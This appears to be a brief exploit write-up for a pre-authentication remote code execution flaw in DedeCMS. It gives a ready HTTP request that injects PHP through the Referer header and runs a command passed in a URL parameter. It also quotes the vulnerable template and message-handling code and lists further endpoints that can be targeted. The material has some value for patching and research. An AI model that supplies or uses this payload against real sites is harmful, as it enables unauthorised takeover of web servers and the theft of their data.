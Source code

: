 ### Pre-auth RCE
```
GET /plus/flink.php?dopost=save&c=id HTTP/1.1
Host: target
Referer: <?php "system"($c);die;/*
```

details：

`plus/flink.php`:
```php
if ($dopost == 'save') {
    $validate = isset($validate) ? strtolower(trim($validate)) : '';
    $svali = GetCkVdValue();
    if ($validate == '' || $validate != $svali) {
        ShowMsg('验证码不正确!', '-1'); // 1
        exit();
    }
```

`include/common.func.php`:
```php
function ShowMsg($msg, $gourl, $onlymsg = 0, $limittime = 0){
$gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';

$func .= "var pgo=0;
      function JumpUrl(){
        if(pgo==0){ location='$gourl'; pgo=1; }
      }\r\n";
        $rmsg = $func;
        
$msg = $htmlhead . $rmsg . $htmlfoot;


    $tpl = new DedeTemplate();
    $tpl->LoadString($msg);
    $tpl->Display();
    
}
```

`include/dedetemplate.class.php`:
```php
    public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache(); // 7
        include $this->cacheFile; // 9
    }
```


other endpoints:
```
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
…
```

ref:
- [Chasing a Dream :: Pre-authenticated Remote Code Execution in Dedecms](https://srcincite.io/blog/2021/09/30/chasing-a-dream-pwning-the-biggest-cms-in-china.html)
